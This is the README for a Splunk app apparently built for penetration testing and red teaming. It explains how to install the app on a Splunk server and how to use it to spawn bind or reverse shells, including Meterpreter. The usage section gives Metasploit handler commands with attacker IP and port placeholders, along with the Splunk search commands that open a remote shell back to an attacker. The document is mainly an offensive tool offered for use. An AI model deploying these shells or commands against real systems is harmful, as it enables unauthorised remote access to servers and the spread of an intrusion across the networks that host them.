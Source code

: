 Splunk Shells App
Version 1.1

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/MrJester/splunk_shells/releases/download/1.0/splunk_shells.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:

## Bind Shell

use multi/handler<br>
set payload python/meterpreter_bind_tcp<br>
set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

'| bindshell SHELLTYPE PORTNUMBER' 

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


## Reverse Shell

use multi/handler<br>
set payload python/meterpreter_reverse_tcp<br>
set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

ATTACKERIP - Specify the IP that you want to shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
